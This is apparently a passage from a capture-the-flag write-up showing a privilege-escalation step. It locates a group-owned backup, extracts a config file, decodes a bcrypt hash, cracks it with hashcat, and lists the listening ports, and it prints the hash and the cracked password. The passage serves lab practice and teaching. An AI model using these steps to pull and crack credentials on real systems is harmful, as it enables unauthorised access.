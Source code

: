 ```
group=sysadm
```

Find files belonging to the `sysadm` group:

```
find / -group sysadm -ls 2>/dev/null
```

Found:

```
/var/backups/backrest_backup.tar.gz
```

Copy and extract:

```
cp /var/backups/backrest_backup.tar.gz /tmp/
cd /tmp/
tar -xvf backrest_backup.tar.gz
```

Inspect `config.json`:

```
cat backrest/.config/backrest/config.json
```

Extract bcrypt password:

```
echo 'JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP' | base64 -d
```

Result:

```
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO
```

Crack:

```
echo '$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO' > artificial.txt
hashcat -m 3200 artificial.txt /usr/share/wordlists/rockyou.txt
```

Cracked:

```
!@#$%^
```

Check if `backrest` is running:

```
netstat -tulnp | grep LISTEN
```

It is listening on:

```
tcp 0 0 127.0.0.1:9898 0.0.0.0:* LISTEN - 
tcp 0 0 0.0.0.0:80 0.0.0.0:* LISTEN - 
tcp 0 0 127.0.0.53:53 0.0.0.0:* LISTEN - 
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN - 
tcp 0 0 127.0.0.1:5000 0.0.0.0:* LISTEN - 
tcp6 0 0 :::80 :::* LISTEN - tcp6 0 0 :::22
```

